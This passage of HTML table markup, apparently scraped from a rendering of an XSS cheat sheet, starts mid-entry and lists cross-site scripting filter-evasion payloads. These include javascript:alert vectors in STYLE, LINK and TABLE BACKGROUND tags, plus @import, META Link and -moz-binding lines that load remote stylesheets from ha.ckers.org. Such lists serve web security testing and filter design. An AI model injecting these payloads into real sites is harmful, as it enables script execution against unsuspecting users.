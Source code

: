 und:url("javascript:alert('X »
SS')")}&lt;/STYLE&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Stylesheet</td>
<td>
<pre>&lt;LINK REL="stylesheet" »
HREF="javascript:alert('XSS' »
);"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Remote Stylesheet 1</td>
<td>
<pre>&lt;LINK REL="stylesheet" »
HREF="http://ha.ckers.org/xs »
s.css"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Remote Stylesheet 2</td>
<td>
<pre>&lt;STYLE&gt;@import'http://ha.cke »
rs.org/xss.css';&lt;/STYLE&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Remote Stylesheet 3</td>
<td>
<pre>&lt;META HTTP-EQUIV="Link" »
Content="&lt;http://ha.ckers.or »
g/xss.css&gt;; REL=stylesheet"&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>Remote Stylesheet 4</td>
<td>
<pre>&lt;STYLE&gt;BODY{-moz-binding:url »
("http://ha.ckers.org/xssmoz »
.xml#xss")}&lt;/STYLE&gt;</pre>
</td>
<td></td>
<td></td>
</tr>
<tr>
<td>TABLE</td>
<td>
<pre>&lt;TABLE »
BACKGROUND="javascript:alert »
('XSS')"&gt;&lt;/TABLE&gt;</pre>
</td>
<td></td>
<td></td>